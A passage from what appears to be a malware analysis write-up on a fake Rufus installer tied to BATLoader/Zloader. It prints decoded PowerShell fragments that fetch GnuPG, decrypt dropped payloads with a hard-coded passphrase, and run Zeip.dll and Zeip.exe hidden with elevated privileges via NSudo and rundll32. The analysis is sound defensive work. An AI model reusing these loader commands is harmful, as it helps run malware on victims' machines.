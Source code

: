 This chunk of code does two things. After a sleep delay, it downloads NSudo and the legitimate Rufus installer before installing Rufus. The NSudo executable is often used by [BATLoader](https://malpedia.caad.fkie.fraunhofer.de/details/win.bat_loader)/Zloader to execute commands with escalated privileges and break up process execution trees. The legitimate Rufus installer is likely to complete the Rufus installation ruse. The malware authors don't want the victim to get suspicious because Rufus wasn't installed as requested.

```powershell
...
function Install-GnuPg {

  [CmdletBinding()]

  param
  (

    [Parameter(Mandatory)]
    [ValidateNotNullOrEmpty()]
    [string]$DownloadFolderPath,
    [Parameter()]
    [ValidateNotNullOrEmpty()]
       
    [string]$DownloadUrl = 'hxxp://files.gpg4win[.]org/gpg4win-2.2.5.exe'
    )
...
```
{: file='rufus.decoded.ps1'}

The actual code to implement GPG functionality starts at this point in the script. It looks like the script implements the `Install-GnuPg`, `Add-Encryption`, and `Remove-Encryption` cmdlets. From some cursory Googling, it looks like these functions are ripped straight from someone's Github repository: <https://github.com/adbertram/Random-PowerShell-Work/blob/master/Security/GnuPg.psm1>

Finally we can get into the decryption part of the script. 

```powershell
...
Install-GnuPG -DownloadFolderPath $env:APPDATA

Remove-Encryption -FolderPath $env:APPDATA -Password 'putingod'
...
```
{: file='rufus.decoded.ps1'}

The `Remove-Encryption` command removes GPG encryption from any of the files in AppData\Roaming using the passphrase `putingod`. This results in the decrypted Zeip.exe and Zeip.dll before execution using Nsudo, PowerShell, and rundll32.exe.

```powershell
...
.$env:APPDATA\Nsudo.exe -U:P -ShowWindowMode:Hide cmd /c powershell.exe -command "rundll32 $env:APPDATA\Zeip.dll, DllRegisterServer; $env:APPDATA\Zeip.exe"
...
```
{: file='rufus.decoded.ps1'}
